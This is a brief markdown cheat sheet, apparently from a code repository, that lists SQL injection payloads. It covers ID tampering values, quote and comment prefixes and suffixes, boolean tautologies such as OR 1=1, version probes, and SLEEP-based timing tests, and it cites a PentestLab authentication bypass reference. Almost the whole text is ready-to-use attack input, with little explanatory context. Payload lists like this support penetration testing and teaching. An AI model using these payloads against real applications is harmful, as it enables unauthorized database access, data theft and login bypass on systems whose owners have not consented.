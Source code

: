 # SQL Query List

## Change numeric value of parameter ID

Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below:

```
id=0
id=-1
id=9999.99
```

## Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

## Suffix SQL Query List

```
--
#
/*
--<whitespace>
-- -
-- //
AND ('abc'='abc
```

## Error-based Query List

```
OR 1=1
OR 1=1 IN (SELECT @@VERSION)
OR '1'='1'
OR 1=2
OR 0=0
OR a=a
OR SLEEP(10)
AND 1=1
AND 1=1 IN (SELECT @@VERSION)
AND '1'='1'
AND 1=2
AND 0=0
AND a=a
AND SLEEP(10)
```

## References

- [PentestLab: SQL Injection Authentication Bypass Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)